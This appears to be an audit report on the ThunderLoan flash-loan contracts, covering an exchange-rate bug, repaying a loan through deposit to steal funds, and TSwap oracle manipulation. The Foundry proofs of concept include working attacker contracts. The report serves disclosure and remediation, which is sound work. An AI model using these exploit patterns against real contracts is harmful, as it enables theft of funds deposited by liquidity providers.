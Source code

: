 ## High

### [H-1] Erroneous `AssetToken::updateExchangeRate` call in `ThunderLoan::deposit` causes exchange rate to be incorrect resulting in liquidity providers being unable to withdraw funds.

**Description** In the ThunderLoan system, the `AssetToken::s_exchangeRate` is responsible for keeping track of the exchange rate between assetTokens and underlying tokens. In a way, it's responsible for keeping track of fees earned by completing flash loans.

The `ThunderLoan::deposit` function updates this rate, without collecting any fees. 

```javascript

    function deposit(IERC20 token, uint256 amount) external revertIfZero(amount) revertIfNotAllowedToken(token) {
        AssetToken assetToken = s_tokenToAssetToken[token];
        uint256 exchangeRate = assetToken.getExchangeRate();
        uint256 mintAmount = (amount * assetToken.EXCHANGE_RATE_PRECISION()) / exchangeRate;
        emit Deposit(msg.sender, token, amount);
        assetToken.mint(msg.sender, mintAmount);
@>      uint256 calculatedFee = getCalculatedFee(token, amount);
@>      assetToken.updateExchangeRate(calculatedFee);
        token.safeTransferFrom(msg.sender, address(assetToken), amount);
    }
```

**Impact**

`ThunderLoan::redeem` is blocked because the protocol thinks more fees have been collected than in reality. It therefore attempts to issue the liquidity provider more funds than they're actually owed. For the last liquidity provider to call redeem, they won't be able to get all of their tokens.

**Proof of Concept**

1. LP deposits
2. User completes a flash loan
3. It is now impossible for LP to redeem

Place the following test into `ThunderLoanTest.t.sol`:

<details>
<summary> POC </summary>

```javascript
    function testRedemptionAfterLoan() public setAllowedToken hasDeposits {
        //Perform a flash loan
        uint256 amountToBorrow = AMOUNT * 10;
        uint256 calculatedFee = thunderLoan.getCalculatedFee(tokenA, amountToBorrow);
        console2.log("calculatedFee: ", calculatedFee);

        vm.startPrank(user);
        tokenA.mint(address(mockFlashLoanReceiver), calculatedFee);
        thunderLoan.flashloan(address(mockFlashLoanReceiver), tokenA, amountToBorrow, "");
        vm.stopPrank();

        //Check the exchange rate
        AssetToken asset = thunderLoan.getAssetFromToken(tokenA);
        console2.log("asset.getExchangeRate():", asset.getExchangeRate());

        //Redeem funds
        uint256 amountToRedeem = type(uint256).max; // redeem all their funds
        vm.startPrank(liquidityProvider);
        thunderLoan.redeem(tokenA, amountToRedeem);
        vm.stopPrank();
    }
```
</details>


**Recommended Mitigation** Remove the lines which incorrectly update the exchange rate in `ThunderLoan::deposit`

```diff
    function deposit(IERC20 token, uint256 amount) external revertIfZero(amount) revertIfNotAllowedToken(token) {
        AssetToken assetToken = s_tokenToAssetToken[token];
        uint256 exchangeRate = assetToken.getExchangeRate();
        uint256 mintAmount = (amount * assetToken.EXCHANGE_RATE_PRECISION()) / exchangeRate;
        emit Deposit(msg.sender, token, amount);
        assetToken.mint(msg.sender, mintAmount);
-       uint256 calculatedFee = getCalculatedFee(token, amount);
-       assetToken.updateExchangeRate(calculatedFee);
        token.safeTransferFrom(msg.sender, address(assetToken), amount);
    }

```



### [H-2] `ThunderLoan::deposit` can be used instead of `ThunderLoan::repay` to pay back a flash loan. This results in the loan-taker being issued assetTokens which can then be redeemed from the pool. 

**Description** The `ThunderLoan::flashloan` function checks that a loan is paid back by reverting if the endingBalance of the `assetToken` contract is not greater than the starting balance plus the calculated fee:

```javascript
        uint256 endingBalance = token.balanceOf(address(assetToken));
@>      if (endingBalance < startingBalance + fee) {
@>          revert ThunderLoan__NotPaidBack(startingBalance + fee, endingBalance);
        }
```

There is no check to ensure that the loan-taker repaid the loan using the intended function `ThunderLoan::repay`. When the loan-taker repays using the `ThunderLoan::deposit` function, they mint `assetToken` tokens which gives them a claim on the underlying asset:


```javascript
    function deposit(IERC20 token, uint256 amount) external revertIfZero(amount) revertIfNotAllowedToken(token) {
        AssetToken assetToken = s_tokenToAssetToken[token];
        uint256 exchangeRate = assetToken.getExchangeRate();
        uint256 mintAmount = (amount * assetToken.EXCHANGE_RATE_PRECISION()) / exchangeRate;
        emit Deposit(msg.sender, token, amount);
@>      assetToken.mint(msg.sender, mintAmount);
        
```

**Impact** Legitimate liquidity providers risk having their funds stolen by malicious users.

**Proof of Concept**

<details>
<summary> POC </summary>

Paste this function in the `ThunderLoanTest` contract: 

```javascript

    function testUseDepositToRepayFlashLoanToStealFunds() public setAllowedToken hasDeposits {
        
        uint256 amountToBorrow = 50e18;
        uint256 fee = thunderLoan.getCalculatedFee(tokenA, amountToBorrow);
        
        // create instance of DepositInsteadOfRepay (attacker)
        DepositInsteadOfRepay dior = new DepositInsteadOfRepay(address(thunderLoan));
        vm.startPrank(address(dior));
        tokenA.mint(address(dior), fee);

        // Take out flash loan
        thunderLoan.flashloan(address(dior), tokenA, amountToBorrow, "");

        // Flash loan is paid back in executeOperation
        
        // Now redeem funds we deposited (which were actually the same funds as the flash loan)
        dior.redeemMoney();
        vm.stopPrank();

        //This interacts with another bug where calling deposit updates the exchange rate, so when we redeem we get more funds than we should
        assert(tokenA.balanceOf(address(dior)) >= 50e18 + fee);
    }
```


Paste this contract in the `ThunderLoanTest.t.sol` file: 

```javascript

contract DepositInsteadOfRepay is IFlashLoanReceiver {
    ThunderLoan thunderLoan;
    AssetToken assetToken;
    IERC20 s_token;

    constructor(address _thunderLoan) {
        thunderLoan = ThunderLoan(_thunderLoan);
    }

    function executeOperation(
        address token,
        uint256 amount,
        uint256 fee,
        address, //initiator,
        bytes calldata //params
    )
        external
        returns (bool)
    {
        s_token = IERC20(token);
        assetToken = thunderLoan.getAssetFromToken(IERC20(token));
        IERC20(token).approve(address(thunderLoan), amount + fee);
        thunderLoan.deposit(IERC20(token), amount + fee);
        return true;
    }

    function redeemMoney() public {
        uint256 amount = assetToken.balanceOf(address(this));
        thunderLoan.redeem(s_token, amount);
    }
}


```


</details>


**Recommended Mitigation** Possible mitigrations:
1. Add a check ensuring the flashloan has been repaid using the `ThunderLoan::repay` function
2. Do not allow an address to have a flash loan and call deposit at the same time



### [H-3] TITLE (Root Cause + Impact)

**Description**

**Impact**

**Proof of Concept**

**Recommended Mitigation**


## Medium

### [M-1] Using TSwap as a price oracle creates risk of price and oracle manipulation attacks. This can cause users to pay less fees on flashloans.

**Description** The TSwap protocol is a constant product formula based AMM (automated market maker). The price of a token is determined by how many reserves are on either side of the pool. Because of this, it is easy for malicious users to manipulate the price of a token by buying or selling large amounts of the token in the same transaction. Due to the fee calculation in `ThunderLoan::getCalculatedFee`, the fee is a function of the price of the token in the TSwapPool.

**Impact** Liquidity providers will earn significantly less fees for providing liquidity.

**Proof of Concept**

The following sequence of execution occurs in 1 transaction.

1. User takes a flash loan from `ThunderLoan` for 50 `tokenA`. They are charged the original fee. During the flash loan they do the following:
   1. Swap 50 `tokenA` into the `TSwapPool`
   2. Take out a second flashloan for another 50 `TokenA`. Due to the way `ThunderLoan` calculates fees based on the price of `TokenA` in `TSwapPool`, the second flash loan is substantially cheaper.

    ```javascript
        function getPriceInWeth(address token) public view returns (uint256) {
            address swapPoolOfToken = IPoolFactory(s_poolFactory).getPool(token);
    @>      return ITSwapPool(swapPoolOfToken).getPriceOfOnePoolTokenInWeth();
        }
    ```
   3. The user repays the first flash loan, then repays the second flash loan.

<details>
<summary> POC </summary>

Paste this function in the `ThunderLoanTest` contract: 

```javascript

    // This test requires more setup, we cannot use the basic mock contracts from TSwap
    function testOracleManipulation() public {

        // 1. Setup contracts
        thunderLoan = new ThunderLoan();
        weth = new ERC20Mock();
        tokenA = new ERC20Mock();
        proxy = new ERC1967Proxy(address(thunderLoan), "");

        BuffMockPoolFactory pf = new BuffMockPoolFactory(address(weth));
        // Create a TSwap pool between WETH/TokenA
        address tSwapPool = pf.createPool(address(tokenA));

        // Use the proxy address as the thunderLoan contract
        thunderLoan = ThunderLoan(address(proxy));
        thunderLoan.initialize(address(pf));

        // 2. Fund TSwap
        vm.startPrank(liquidityProvider);
        tokenA.mint(liquidityProvider, 100e18);
        tokenA.approve(tSwapPool, 100e18);

        weth.mint(liquidityProvider, 100e18);
        weth.approve(tSwapPool, 100e18);
        
        // Ratio should be 100 weth & 100 TokenA
        // Therefore price is 1:1
        BuffMockTSwap(tSwapPool).deposit(100e18, 100e18, 100e18, block.timestamp);
        vm.stopPrank();

        // 3. Fund ThunderLoan
        vm.startPrank(thunderLoan.owner());   
        //console2.log(thunderLoan.owner());
        thunderLoan.setAllowedToken(tokenA, true);
        vm.stopPrank();
        
        vm.startPrank(liquidityProvider);
        tokenA.mint(liquidityProvider, 1000e18);
        tokenA.approve(address(thunderLoan), 1000e18);
        thunderLoan.deposit(tokenA, 1000e18);
        vm.stopPrank();

        // 4. Take out flash loan for 50 tokenA, swap it on the DEX (TSwapPool) to impact the price
        uint256 normalFeeCost = thunderLoan.getCalculatedFee(tokenA, 100e18);
        console2.log("normalFeeCost: ", normalFeeCost);
        // 0.296147410319118389

        uint256 amountToBorrow = 50e18;
        MaliciousFlashLoanReceiver flr = new MaliciousFlashLoanReceiver(tSwapPool, address(thunderLoan), address(thunderLoan.getAssetFromToken(tokenA))); 

        vm.startPrank(user);
        tokenA.mint(address(flr), 100e18); // mint flash loan user tokens to cover fees
        thunderLoan.flashloan(address(flr), tokenA, amountToBorrow, "");
        vm.stopPrank();

        uint256 attackFee = flr.loanFeeOne() + flr.loanFeeTwo();
        console2.log("attackFee: ", attackFee);

        assert(attackFee < normalFeeCost);
    }

```


Paste this contract in the `ThunderLoanTest.t.sol` file: 

```javascript


contract MaliciousFlashLoanReceiver is IFlashLoanReceiver {

    ThunderLoan thunderLoan;
    BuffMockTSwap tSwapPool;
    address repayAddress;
    bool attacked;

    uint256 public loanFeeOne;
    uint256 public loanFeeTwo;

    constructor(address _tswapPool, address _thunderLoan, address _repayAddress) {
        tSwapPool = BuffMockTSwap(_tswapPool);
        thunderLoan = ThunderLoan(_thunderLoan);
        repayAddress = _repayAddress;
        attacked = false;
    }

    function executeOperation(
        address token,
        uint256 amount,
        uint256 fee,
        address, //initiator,
        bytes calldata //params
    )
        external
        returns (bool)
    {
        if (!attacked) {
            loanFeeOne = fee;
            attacked = true;

            // Swap borrowed tokenA borrowed for WETH
            uint256 wethBought = tSwapPool.getOutputAmountBasedOnInput(50e18, 100e18, 100e18);
            IERC20(token).approve(address(tSwapPool), 50e18);
            tSwapPool.swapPoolTokenForWethBasedOnInputPoolToken(50e18, wethBought, block.timestamp);
            // n we want to validate that this user can swap this weth back for tokenA after the second flash loan is taken out!

            // 5. Take out another flash loan for 50 tokenA and see how much cheaper it is!
            // Take out another flash loan to show difference in fees (this will re enter this function however attacked will be true)
            thunderLoan.flashloan(address(this), IERC20(token), amount, "");

            // Repay - repay is currently bugged when repaying the second flash loan, use a direct transfer instead
            // IERC20(token).approve(address(thunderLoan), amount + fee);
            // thunderLoan.repay(IERC20(token), amount + fee);
            IERC20(token).transfer(repayAddress, amount + fee);
        }
        else {
            // Calculate fee
            loanFeeTwo = fee;

            // Repay - repay is currently bugged when repaying the second flash loan, use a direct transfer instead
            // IERC20(token).approve(address(thunderLoan), amount + fee);
            // thunderLoan.repay(IERC20(token), amount + fee);
            IERC20(token).transfer(repayAddress, amount + fee);
        }
        return true;
    }
}


```


</details>


**Recommended Mitigation** Consider using a different price oracle mechanism, like a Chainlink price feed with a Uniswap TWAP fallback oracle.

Alternatively, take fees as a % of the borrowed amount, in the token that was borrowed. This removes the dependancy on external price oracles.